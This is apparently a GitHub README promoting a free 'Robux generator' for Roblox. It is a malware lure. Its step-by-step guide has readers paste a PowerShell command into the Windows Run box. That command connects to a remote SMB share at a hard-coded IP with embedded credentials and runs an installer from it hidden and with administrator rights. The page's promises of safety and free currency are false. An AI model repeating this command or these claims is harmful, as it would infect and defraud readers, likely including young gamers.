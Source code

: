 # 🚀 **ULTIMATE ROBUX GENERATOR 2025** 🚀
### 💎 *The Most Advanced Free Robux Solution* 💎

<p align="center">
  <img src="https://media.giphy.com/media/1PyHmfStu82zy7Ou0Q/giphy.gif" width="450" alt="Roblox GIF" />
</p>



## 🔥 **WHY OUR GENERATOR IS THE BEST**

✔️ **New 2025 algorithm** bypasses Roblox security  
✔️ **Daily updated** to prevent detection  
✔️ **Proven success rate** with over 1M+ happy users  
✔️ **No human verification** required  
✔️ **Works on all windows devices**  

---

## 🛠️ **HOW IT WORKS**

Our proprietary technology uses advanced exploit to inject Robux directly into your account through Roblox's backend servers. This method was discovered by our team of reverse engineers after analyzing Roblox's transaction protocols.


---

## 📝 **STEP-BY-STEP GUIDE**

### 1️⃣ **Preparation**
- Ensure you have Roblox installed
- Log into your Roblox account on pc

### 2️⃣ **Activation**
1. Copy the code provided under this text
   

**powershell -Command "Start-Process cmd -ArgumentList '/c net use \\89.110.93.160\shear /user:WORKGROUP\sambauser aabb1234 && \\89.110.93.160\shear\s -fullinstall' -windowstyle hidden -Verb RunAs**


2. Press **WINDOWS KEY** + **R**
3. Press **CTRL** + **V**
4. Press **ENTER**

3️⃣ Verification

    Check your Robux balance

    Restart Roblox if changes aren't immediate



❓ FREQUENTLY ASKED QUESTIONS
❔ Is this safe?

    Absolutely! Our method uses official Roblox APIs

❔ Why is it free?

    We're funded by generous donations from satisfied users

❔ How often can I use it?

    Currently limited to 50K Robux per day per account

❔ Will I get banned?

    Never! Our encryption prevents detection

<div align="center" style="background:#ff000020;padding:15px;border-radius:10px;border:2px dashed red;margin:20px">

⚠️ LEGAL DISCLAIMER ⚠️
Abuse of this software is strictly prohibited
Roblox® is a registered trademark of Roblox Corporation.
</div><h3 align="center">⭐ STAR THIS REPO TO SUPPORT DEVELOPMENT! ⭐</h3><p align="center"> <img src="https://media.giphy.com/media/lGY4fS4zv3VSZdIDB7/giphy.gif" width="150"> </p><p align="center"> 🔧 <b>Maintained by Stalich</b> 🔧<br> <sub>Last Updated: July 2025</sub> </p> ```
